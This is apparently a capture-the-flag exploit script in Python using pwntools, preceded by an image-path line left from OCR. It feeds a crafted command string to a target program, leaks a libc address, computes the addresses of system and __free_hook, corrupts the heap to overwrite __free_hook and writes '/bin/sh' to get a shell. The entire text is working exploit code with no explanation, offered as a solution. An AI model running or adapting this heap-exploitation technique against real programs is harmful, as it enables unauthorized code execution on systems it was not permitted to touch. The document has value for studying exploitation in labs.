 ```python

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

pd = '\x4d\x10\x10'
pd += '*\x00\x01\xf0\x04'#add 1

pd += '*\x00\x03\xf0\x00'#add 3

pd += '/\x00\x01'
pd += '*\x00\x01\xf0\x00'#add 1

pd += '*\x00\x02\xf0\x00'#add 2

pd += 'p'

pd += '+\x0f\x08\x02'
pd += 'd'*0xb
pd += 's'*0xe
pd += 'd'*0x8
pd += 'sw'

pd += '/\x00\x01'
pd += '/\x00\x02'
pd += '*\x00\x01\x10\x01'#add 1

pd += '*\x00\x02\xf0\x00'#add 2

pd += '*\x00\x04\xf0\x00'#add hook

pd += '/\x00\x02'


sla('cmd> ',pd)

sd('X1ng\n')
time.sleep(0.1)

sd('X3ng\n')
time.sleep(0.1)

sd('\xd0')
time.sleep(0.1)

sd('a'*0x10+p64(0)+p64(0x21))
time.sleep(0.1)

ru('pos:0,1\n')
libc_base = (u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) | 0x4000000000) - 0x154fd0
system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']

log.success('libc_base:' + hex(libc_base))
log.success('system:' + hex(system))
log.success('__free_hook:' + hex(free_hook))

sd('b'*0xf8+p64(0x101)+p64(free_hook)+'b'*0x8)
time.sleep(0.1)

sd('/bin/sh\x00'+'c'*(0xf0-8))
```